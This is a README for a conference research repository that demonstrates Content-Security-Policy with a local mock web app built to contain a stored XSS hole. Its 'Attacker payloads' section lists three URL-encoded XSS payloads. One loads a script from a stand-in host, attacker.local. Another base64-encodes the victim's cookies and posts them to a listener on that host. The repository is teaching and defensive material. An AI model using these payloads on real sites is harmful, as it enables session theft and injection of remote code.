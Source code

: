 # Research on Content-Security-Policy

## Introduction

💬 This folder contains all my work for the presentation about Content-Security-Policy (CSP) given at the [VOXXED LU 2024](https://luxembourg.voxxeddays.com/en/) conference..

💻 [VSCode](https://code.visualstudio.com/) was used as main [IDE](https://en.wikipedia.org/wiki/Integrated_development_environment).

💻 A distribution of [Chromium](https://chromium.woolyss.com/download/en/) for Windows was used to work on this research. It was stored in a folder, named **chromium**, located at the root of the project folder (added to [git ignore file](.gitignore)).

## Content

* 📄 Files:
  * [pitch.docx](pitch.docx): Contains the synopsis, in french, of the presentation.
  * [code.code-workspace](code.code-workspace): VScode workspace descriptor.
  * [scratchpad.md](scratchpad.md): Contains all the technical notes and information gathered during the work on the presentation.
* 📂 Folders:
  * [app](app/): Contains the mock web application with the XSS used for the context of the presentation.
  * [attacker](attacker/): Contains the web listeners and payloads used to exploit the XSS as the attacker.
  * [sources](sources/): Contains the original files of different elements used.

## Run the app

📑 **Step 1** - Add these entries to your **hosts** file:

```text
127.0.0.1 attacker.local
127.0.0.1 righettod.local
```

 👨‍💻 **Step 2** - Run the following command, from the **attacker** folder:

```powershell
PS> php -S localhost:9000
PHP 7.3.4 Development Server started 
Listening on http://0.0.0.0:9000
```

👨‍💻 **Step 3** - Run the following command, from the **app** folder:

```powershell
PS> php -S localhost:8000
PHP 7.3.4 Development Server started 
Listening on http://0.0.0.0:8000
```

🌏 Then, browse on <http://localhost:8000> to access the sample app.

## Attacker payloads

😈 This is the content to add into the file [comments.json](app/store/comments.json) of the app to simulate the differents stored XSS performed by the attacker:

```json
[
    {
        "userName": "remote payload",
        "userEmail": "dom@attacker.lu",
        "userComment": "%3Cimg+src%3D%27x%27+onerror%3D%27%24.getScript%28%5C%22%2F%2Fattacker.local%3A9000%2Fpayload.js%5C%22%29%27%3E"
    },
    {
        "userName": "embedded payload v1",
        "userEmail": "dom@attacker.lu",
        "userComment": "%3Cimg%20src%3D%27x%27%20onerror%3D%27fetch%28%5C%22%2Fapi%2Ephp%3Fsource%3Dxss%5C%22%29%3Balert%28%5C%22Evil%20code%20loaded%20%3A%29%5C%22%29%3B%27%3E"
    },
    {
        "userName": "embedded payload v2",
        "userEmail": "dom@attacker.lu",
        "userComment": "%3Cimg%20src%3D%27x%27%20onerror%3D%27let%20cke%3Dbtoa%28document%2Ecookie%29%3Blet%20bdy%3Ddocument%2EgetElementsByTagName%28%5C%22body%5C%22%29%5B0%5D%3Blet%20frm%3Ddocument%2EcreateElement%28%5C%22form%5C%22%29%3Bfrm%2EsetAttribute%28%5C%22method%5C%22%2C%5C%22post%5C%22%29%3Bfrm%2EsetAttribute%28%5C%22action%5C%22%2C%5C%22%2F%2Fattacker%2Elocal%3A9000%2Flistener%2Ephp%5C%22%29%3Blet%20prm%3Ddocument%2EcreateElement%28%5C%22input%5C%22%29%3Bprm%2EsetAttribute%28%5C%22type%5C%22%2C%5C%22hidden%5C%22%29%3Bprm%2EsetAttribute%28%5C%22name%5C%22%2C%5C%22data%5C%22%29%3Bprm%2EsetAttribute%28%5C%22value%5C%22%2Ccke%29%3Bfrm%2EappendChild%28prm%29%3Bbdy%2EappendChild%28frm%29%3Bfrm%2Esubmit%28%29%3B%27%3E"
    }
]
```

## References

* [Base of the mock web app](https://themewagon.com/themes/fruitables-free/).
* [PHP download for Windows](https://windows.php.net/download#php-8.3).
* [Chromium download](https://chromium.woolyss.com/download/en/).

  # License

<a rel="license" href="http://creativecommons.org/licenses/by-sa/4.0/"><img alt="Creative Commons License" style="border-width:0" src="https://i.creativecommons.org/l/by-sa/4.0/88x31.png" /></a><br />Presentation and all the content of this repository are licensed under a <a rel="license" href="http://creativecommons.org/licenses/by-sa/4.0/">Creative Commons Attribution-ShareAlike 4.0 International License</a>.
